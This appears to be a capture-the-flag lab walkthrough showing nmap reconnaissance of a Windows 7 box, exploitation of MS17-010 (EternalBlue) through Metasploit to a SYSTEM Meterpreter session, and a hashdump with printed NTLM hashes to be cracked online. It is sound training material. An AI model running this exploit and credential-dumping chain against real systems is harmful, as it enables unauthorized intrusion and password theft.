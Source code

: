 <hr style="border-color:red;"><h1 align="center"><img src="https://github.com/user-attachments/assets/db0ff09d-a6b7-4b03-8f93-1c1827dc7867"></h1>

<hr style="border-color:red;"><h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1><hr style="border-color:red;">

### **- Verifying the connectivity of the discovered device:**

```bash
ping -c 1 10.10.12.63
```
```bash
ping
The ping command is used to check network connectivity between your machine and another device by sending ICMP (Internet Control Message Protocol) echo request packets.
-c 1
The -c flag specifies the number of echo request packets to send. In this case, -c 1 means only one packet will be sent.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7b3d2ea0-61a7-4511-8088-dea75395c71a"></picture><br>TTL = 127 ==> WINDOWS</h3><hr style="border-color:red;">

### **- Scanning of the discovered device to find all open ports to find possible access routes:**

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.12.63 -oG allPorts
```
```
-p-
This tells Nmap to scan all 65535 TCP ports (from 0 to 65535). By default, Nmap only scans the most common 1,000 ports.

--open
This filters the results to only show open ports, ignoring closed or filtered ports.

-sS
This specifies a SYN scan (also called a half-open scan or stealth scan).
Instead of fully establishing a TCP connection, Nmap sends an SYN packet and waits for a response.
If the target responds with SYN-ACK, it means the port is open.
If the target responds with RST, the port is closed.
If no response or an ICMP error is received, the port may be filtered (firewall blocking it).

--min-rate 5000
This forces Nmap to send at least 5000 packets per second, making the scan faster.
Without this, Nmap adjusts the speed automatically based on network conditions.

-vvv
This increases verbosity level (very very verbose).
It provides real-time feedback while scanning.
You will see results as they are discovered instead of waiting for the full scan to complete.

-n
This disables DNS resolution, making the scan faster.
By default, Nmap tries to resolve IPs to hostnames, which can slow down the scan.

-Pn
This tells Nmap to skip the host discovery phase and assume the target is up.
Normally, Nmap pings the target first to check if it is online.
If a firewall is blocking pings, this option is useful to force a scan even if the target doesn’t respond to pings.

-oG allPorts
This tells Nmap to output the results in "Grepable" format and save them in a file called allPorts.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/14e953a0-650c-4e09-9532-d084c7761ce7"></picture><br>Accessible ports 135,139,445,3389,49452,49152,49154,49158,49160</h3><hr style="border-color:red;">

### **- Analysis of the open ports found on the discovered device to get more information on the services running on those ports:**

```bash
nmap -sCV -p135,139,445,3389,49452,49152,49154,49158,49160 10.10.12.63 -oN targeted
```
```
-sC
Enables Nmap’s default script scanning.
This runs a set of default scripts to gather more information about detected services.
Scripts can detect vulnerabilities, enumerate software versions, and check for misconfigurations.
Equivalent to --script=default.

-sV
Performs version detection of services.
It tries to determine the exact software version running on open ports.

-p
This makes the scan faster and more targeted instead of scanning all ports.

-oN targeted
Saves the output in normal format to a file named targeted.
You can later review this file for findings.
```
<h3 align="center"><picture><img src="https://github.com/user-attachments/assets/67ace266-1259-4839-b491-fac72e358c27"></picture><br>445/tcp   open   microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) "could be vulnerable to EternalBlue"</h3><hr style="border-color:red;">

### **- Looking for vulnerabilities with nmap:**
```bash
nmap --script "vuln and safe" -p445 10.10.12.63
```
```
--script "vuln and safe" → Runs Nmap scripts that belong to both the vuln (vulnerability detection) and safe (non-destructive) categories.

-p445 → Specifies scanning only port 445 (SMB/Windows file sharing).
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e1883661-9019-48d0-a24f-718440cc2987"></picture><br>We found ms17-010 Vulnerability</h3><hr style="border-color:red;">

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1><hr style="border-color:red;">

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 445</h2>

### **Scanning ms17-010 whit METASPLOIT for possible vulnerabilities**
```bash
msfdb init && msfconsole
```
```
msfdb init (Initialize Metasploit Database)
msfconsole (Launch Metasploit Console)
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/d30ca4a3-673b-4644-8057-70dce9a04494"></picture><br>In here we will look for a vulnerability for ms17-010</h3>

```bash
search ms17-010
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7d22d9ff-cf8f-49ec-a4b4-bdd612605964"></picture><br>As we thought it was an eternalblue.</h3>


### **- We will configure our sploit to gain access to the victim machine:**

```bash
use 0
show options
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/eb010bfc-605e-4753-9bdc-a5a44c50d0ae"></picture><br>The sploit is asking us to enter information about the victim and attacker ip since the ports are automatically assigned.</h3>

### **- We assign the information you require:**
```bash
set RHOSTS 10.10.12.63
set LHOST 10.21.118.81
run
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/a0d1071b-0d56-46bc-87eb-4b67fea89c95"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/1573f02f-7934-4fb1-b381-a901d02f1926"></picture><br>we already have a session by meterpreter like user System.</h3>

### **- e search for all hashes in the system**
```bash
hashdump
```
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/82b66b35-dfed-4191-98f1-55ea6c1968b6"></picture><br>Using the web https://crackstation.net/ we will break these hashes</h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/739058b1-6131-4368-81e1-c3f7d3760145"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/9d38f110-d603-4b26-947d-5af09520ff2f"></picture><br></h3>
